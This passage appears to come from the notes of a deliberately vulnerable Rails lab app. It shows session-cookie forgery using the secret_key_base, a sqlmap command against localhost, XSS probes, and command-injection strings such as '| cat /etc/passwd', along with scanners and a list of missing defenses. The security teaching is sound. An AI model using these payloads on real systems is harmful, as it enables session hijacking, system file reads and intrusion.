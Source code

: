 ### Secret Token Exploitation
```ruby
# Find secret token
Rails.application.secrets.secret_key_base

# Forge session cookies
require 'rack'
Rack::Session::Cookie::Base64::Marshal.new(nil).encode({"user_id" => 1})
```

## Common Misconfigurations

1. **Exposed credentials** in version control
2. **Debug mode** in production
3. **Weak secret_key_base**
4. **No HTTPS enforcement**
5. **Permissive CORS settings**
6. **Exposed admin interfaces**
7. **No rate limiting**

## Testing Tools

### Automated Scanning
```bash
# Brakeman - Rails security scanner
gem install brakeman
brakeman -o report.html

# Bundle audit
gem install bundler-audit
bundle audit check
```

### Manual Testing
```bash
# SQL injection
sqlmap -u "http://localhost:3002/users?email=test" --batch

# XSS testing
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>

# Command injection
; ls -la
| cat /etc/passwd
`whoami`
```

## Defense Mechanisms (What's Missing)
- ❌ Parameterized queries
- ❌ Input validation
- ❌ Output encoding
- ❌ CSRF protection
- ❌ Secure headers
- ❌ Content Security Policy
- ❌ Rate limiting
- ❌ Audit logging
